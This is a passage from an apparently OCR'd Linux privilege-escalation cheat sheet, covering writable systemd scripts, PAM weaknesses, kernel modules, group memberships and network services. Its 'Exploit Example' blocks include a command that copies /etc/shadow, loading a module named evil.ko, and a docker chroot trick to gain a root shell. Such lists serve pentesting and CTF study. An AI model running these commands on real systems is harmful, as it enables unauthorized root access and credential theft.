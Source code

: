**Writable scripts/environment files referenced by systemd services can be abused.**

**Exploit Example:**
```bash
systemctl cat vulnerable.service
echo 'cp /etc/shadow /tmp/shadow_copy' >> /path/to/writable/script
```

---

## 12. Exploiting PAM / Authentication Weaknesses

**Misconfigured PAM modules may allow weak/null passwords.**

**Exploit Example:**
```bash
cat /etc/pam.d/*
# Attempt login as root if vulnerable
```

---

## 13. Kernel Module / Device Node Exploits

**Writable `/dev` nodes or module loading can be abused.**

**Exploit Example:**
```bash
ls -l /dev | grep root
insmod /tmp/evil.ko
```

---

## 14. Weak Group Memberships

**Membership in `docker`, `lxd`, `wheel`, `sudo` can mean root.**

**Exploit Example:**
```bash
groups
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

---

## 15. Exploiting Network Services

**Services running as root, with writable configs, are targets.**

**Exploit Example:**
```bash
netstat -tulpn
# Exploit writable configs or bind shells running as root
```

---